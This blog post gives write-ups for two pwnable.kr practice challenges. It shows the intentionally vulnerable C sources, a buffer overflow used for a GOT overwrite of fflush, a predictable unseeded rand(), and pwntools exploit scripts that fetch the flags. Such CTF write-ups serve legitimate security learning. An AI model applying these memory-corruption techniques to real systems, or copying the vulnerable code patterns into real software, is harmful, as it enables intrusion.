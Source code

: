 ```yaml
---

layout: post
title: Pwn-A-Day Day-4
description: "Pwn challenges for a Month"
date: 2020-05-04
feature_image: images/pwn_a_day/front.png
tags: [Pwn-A-Day]
published: true

---
```



<!--more-->

Today I will show you 2 more challenges from this [site](http://pwnable.kr/play.php)

# Day 4

## Name - Passcode

So we are give with 3 files as usual lets look at the souce code

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

Did you noticed something unusual ,
the **scanf** function right??

```c
scanf("%d", passcode1);
scanf("%d", passcode2);
```
So there should be a `&` sign infront of variable names denoting the address of the variable 

Lets checkout the disassembly of 3 function shown in code above

Main Function

![](images/pwn_a_day/day4/1.png)

Nothing to note here this just calls the *welcome* and *login* functions

Welcome Function

![](images/pwn_a_day/day4/2.png)

So we can see the stack location in the disassembly its `ebp-0x70`

Here we can see instruction lea performed on edx and ebp-0x70. We can translate it just as load the effective address (calculate it) and store in the edx register. From that information, we know that variable ebp-0x70 is the name variable.
Login Function

![](images/pwn_a_day/day4/4.png)


But here, unlike *name* buffer we don’t calculate the address of the variable passcode1, we just use it’s value with `mov edx,DWORD PTR [ebp-0x10]`. All the same with passcode2 - `mov edx,DWORD PTR [ebp-0xc]`.

Since name buffer and passcode1 are relatively close to each other we can overflow the buffer to modify the value of passcode1, so lets calculate the offset

```
offset=(ebp-0x70)-(ebp-0x10)
offset=96
```

so we can supply arbitrary 96 bytes followed by the required value of passcode1 in hex but there is no  way to modify the value of passcode2 because our input is restricted to 100 bytes so anything after 100 bytes will not be read ,so we have two option either to **bruteforce** the passcode2 or overwrite the **GOT entry of fflush function**as it is immediatly executed after scanf for passcode1 

U can read about GOT and PLT [here](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)

lets look for the address of fflush in the GOT table using `objdump -R <binary-name>` 

![](images/pwn_a_day/day4/3.png)

So we can form our payload as 96 'A's followed by fflush address followed by the address to point to which can be *0x080485d7* as it prints the login successful message followed by the flag 

I have shown my exploit below

```python
from pwn import *
ssh_connect=True
# context.log_level="debug"
if ssh_connect:
	server = ["pwnable.kr", 2222, "passcode", "guest"]
	ssh_handle=ssh(host=server[0],port=server[1],user=server[2],password=server[3])
	p=ssh_handle.process("./passcode")
else:
	elf=ELF("./passcode")
	p=elf.process()

fflush=0x0804a004
system=0x080485d7


p.recv()

payload="A"*96
payload+=p32(fflush)
payload+=str(system)

p.sendline(payload)

print p.recvall()

```
Finally the exploit in action!

![](images/pwn_a_day/day4/5.png)

Moving on to next challenge

## Name - Random

Lets take a look at the source

```c
#include <stdio.h>

int main(){
        unsigned int random;
        random = rand();        // random value!

        unsigned int key=0;
        scanf("%d", &key);

        if( (key ^ random) == 0xdeadbeef ){
                printf("Good!\n");
                system("/bin/cat flag");
                return 0;
        }

        printf("Wrong, maybe you should try 2^32 cases.\n");
        return 0;
}
```
so it seem that **rand()** function is being run without any seed so it will return the same value everytime we run the function
so lets get that value first 

just write a short script like this on the server and compile and run it to get the value

```c
#include <stdio.h>

int main(){
        unsigned int random;
        random = rand();

        printf("%d\n", random);
        return 0;
}
```
![](images/pwn_a_day/day4/6.png)

So now we cook up a simple script to xor to strings and get the flag

```python
from pwn import *

ssh_connect=True

if ssh_connect:
	server = ["pwnable.kr", 2222, "random", "guest"]
	ssh_handle=ssh(host=server[0],port=server[1],user=server[2],password=server[3])
	p=ssh_handle.process("./random")
else:
	elf=ELF("./random")
	p=elf.process()

rand_int=1804289383
final_val=0xdeadbeef

key=rand_int^final_val

p.sendline(str(key))
print p.recvall()
```

Finally the script in action

![](images/pwn_a_day/day4/7.png)

Hope you are Enjoying this!!

